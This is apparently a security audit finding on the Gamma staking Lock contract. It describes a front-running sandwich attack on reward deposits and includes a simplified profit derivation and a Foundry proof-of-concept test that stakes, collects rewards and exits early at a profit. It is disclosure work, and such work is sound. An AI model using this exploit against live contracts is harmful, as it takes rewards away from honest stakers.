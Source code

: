 Rare Aqua Cormorant

high

# [H-02] Depositing Rewards is Worth Front Running if the Deposit Value Exceeds Certain Threshold of the Locked Amount

## Summary 
Though it doesn't have a high probability, if the value of the rewards being deposited to the Lock contract is higher than a certain Threshold of `lockedSupplyWithMultiplier` (50% if the penalty is 50%), it's possible to perform a profitable sandwich attack on the `deposit transaction` or `notifyUnseenReward` function call ([Link to Code](https://github.com/sherlock-audit/2024-05-gamma-staking/blob/main/StakingV2/src/Lock.sol#L504)), by staking into the lock contract before the reward transaction and exiting early after it. 

## Vulnerability Detail
For example, if the `lockedSupplyWithMultiplier` is worth $1000 and the reward being deposited is worth $550, assuming a 50% loss on early exit, the needed deposit (x) from the attacker in order to profit can be calculated as below:
```javascript
[ Loss on exit = -x/2 ] 
[ Profit = 550 * x/(1000+x) ]

Adding these two, we will have: 
[ 550x/(1000+x) - x/2 > 0 ]

First, multiply every term by (2(1000+x)) to clear the fractions:
[ -x(1000+x) + 1100x > 0 ]

Expand and simplify:
[ -1000x - x^2 + 1100x > 0 ]

Combine like terms:
[ -x^2 + 100x > 0 ]

Divide every term by (x) (assuming (x \neq 0)):
[ -x + 100 > 0 ]

Rearrange the inequality:
[ x < 100 ]
```
So, if the deposit amount is less than 100 (`x < 100`), the sandwich attack will succeed. Note that with a lower percentage of penalties, this value will alter significantly. For example, if the penalty ratio is at 25 percent, the rewards only need to be a quarter of the pool in order for this scheme to be profitable.

## Impact
An attacker using this method can reduce the profit of other honest users (by 10 percent in the example above).

## Code Snippet
To prove this issue, add this test to `Deposit.t.sol` test suite:
In this test for calculation simplicity, it is assumed that staking and rewarding tokens are both worth the same.
```javascript 
    function testFrontrunningRewards() public {
        // Simulating deposits by user1 different users
        vm.prank(user1);
        lock.stake(1000e18, user1, 0);
        // user 2 seeing the deposited rewards below frontruns it, 
        // or he can even frontrun the notifyUnseenRewards function call
        vm.prank(user2);
        lock.stake(100e18, user2, 0);
        // Distributing rewards to the staking contract
        vm.prank(deployer);
        _rewardToken.transfer(address(lock), 600e18);
        vm.prank(deployer);
        lock.notifyUnseenReward(rewardTokens);
        // user 2 gets the rewards and earlyexits the position in profit
        vm.startPrank(user2);
        lock.getAllRewards();
        LockedBalance memory lockedBalance = lock.locklist().getLock(user2, 0);
        lock.earlyExitById(lockedBalance.lockId);

        console.log("value of portfolio");
        console.log(
            _stakingToken.balanceOf(user2) + _rewardToken.balanceOf(user2)
        ); //1004_545_454_545_454_545_454 => 4.54 dollar profit on 100 dollar investment
        assert(
            _rewardToken.balanceOf(user2) + _stakingToken.balanceOf(user2) >
                1000e18
        ); //assuming reward and stake token both have same value for simplicity
    }
```
## Tool used

Manual Review

## Recommendation
1. In case of large rewards, the deposits can be done in chunks to ignore this problem, especially when the penalty is lower than 50%.
2. Another way to fix this issue can be using pause and unpause functions before and after depositing rewards to stop anyone from adding stakes during this period.